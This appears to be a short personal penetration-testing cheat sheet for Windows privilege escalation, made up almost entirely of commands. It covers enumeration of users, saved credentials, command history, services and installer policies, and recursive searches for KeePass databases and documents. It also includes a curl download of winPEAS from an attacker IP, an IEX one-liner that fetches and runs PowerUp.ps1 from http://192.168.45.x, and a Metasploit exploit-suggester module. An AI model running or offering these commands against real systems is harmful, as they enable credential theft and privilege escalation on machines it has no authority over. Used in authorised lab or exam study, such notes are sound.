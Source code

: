 
> [!NOTE] Note
> set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```powershell
whoami /all

cmdkey /list

systeminfo

net user
net user <current user>
net localgroup

Get-History

(Get-PSReadlineOption).HistorySavePath
type <previous command output>
ls C:\Users\bob\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\

ipconfig /all
netstat -ano
route print

dir C:\
dir "C:\Program Files"
dir "C:\Program Files (x86)"

Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls <service binary path>

$env:AppKey

gci -Path C:\ -Include *.kdbx,.git -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat -File -Recurse -ErrorAction SilentlyContinue
gci -h -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat -File -Recurse -ErrorAction SilentlyContinue
gci C:\Users\Public

where.exe /R C:\Windows bash.exe
where.exe /R C:\Windows wsl.exe
```
1.  Snoop on processes
```powershell
Import-Module .\Watch-Command.ps1
Get-Process | watch-command -diff -cont -verbose -property "Image Name"
```
2. Run PEAS,
```powershell
curl 192.168.45.x/winPEAS.exe -o winpeas.exe
.\winpeas.exe
```
3. PowerUp
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.x/PowerUp.ps1');Invoke-Allchecks
```
4. Running the `sysinfo` command shows us that the system is of x86 bit architecture, giving us even more reason to trust the Local Exploit Suggester
```
post/multi/recon/local_exploit_suggester
```